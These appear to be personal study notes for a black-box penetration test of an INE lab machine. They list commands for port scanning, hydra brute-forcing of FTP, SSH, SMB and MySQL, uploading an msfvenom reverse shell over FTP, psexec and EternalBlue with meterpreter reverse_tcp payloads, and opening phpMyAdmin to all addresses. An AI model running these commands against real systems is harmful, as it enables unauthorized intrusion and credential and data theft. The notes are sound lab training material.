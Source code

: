 
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 

21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC

##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` `
- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`


#### Targeting SMB 

- bruteforce: 
	- `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt  target protocol `
- enumerate shares
	- `smbclient -L targetip -U username`
	- `smbmap -u vagrant -p vagrant -H targetip `
- enumerate user accounts `enum4linux -u username -p password -U ip ` 

 - msfconsole
	 - enumerate users: `smb_enumusers` 

###### PSexec

**Manual**
	psexec allows you to remotely authenticate via SMB with legitimate credentials
		- `locate psexec.py `
		- Copy the file to Desktop:` cp file path  `
		- make the file executable so we can utilize it: `chmod +x psexec.py`
	- `python 3 psexec.py Administrator@ip `

**msfconsole** 
	- `search psexec `
	- `use exploit/windows/smb/psexec `
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `Sysinfo` 
		- `getuid`
		- `getprivs`


What to do when you don't have smb credentials? if you know that the device is running eternalblue: 
	- `search eternalblue `
	- `use exploit/windows/smb/psexec `


#### Targeting MySQL Database Server

msfconsole
	- `use/aux/scanner/mysql/mysql_login `
	- `set pass_file /usr/share.wordlists/metasploit/unix_password.txt`

login mysql database server:
- `mysql -u root -p -h ip `
- `show databases`

visit ip and port in browser 
*use the credentials found with the bruteforce for mysql database server to get access to another server -> wordpress via phpmyadmin*


phpmyadmin (try to change configuration file)
- msfconsole (get elevated meterpreter session)
	- `use exploit/windows/smb/ms17_010_eternalblue`
	- C drive 
	- Navigate to the software stack's folder. For example, if using WAMP, you can navigate to the web root directory by typing:cd `C:\\wamp\\www`


											wordpress directory 
											cat contant of config.php
											contains mysql passwords 

**Modify phpMyAdmin Configuration file** 

- Search for the `phpmyadmin.conf` file that controls phpMyAdmin's access.
- Download the `phpmyadmin.conf` file to your local machine using the Meterpreter session.
- Open and edit the `phpmyadmin.conf` file. Make sure it allows access from all IP addresses.
- Upload the modified `phpmyadmin.conf` file back to the Meterpreter session using the `upload` command.
- Restart the Apache service to apply the changes:
    - Open a Windows command prompt within the Meterpreter session using `shell`.
    - Stop the Apache service with the command: `net stop wampapache`.
    - Start the Apache service again with: `net start wampapache`.
- Revisit the phpMyAdmin page in your browser; you should now have unrestricted access.
	- change the password![[Pasted image 20230914165333.png]]
- Log in to the WordPress site via phpMyAdmin using the MySQL credentials obtained earlier.






















#### Targeting MySQL Database Server 
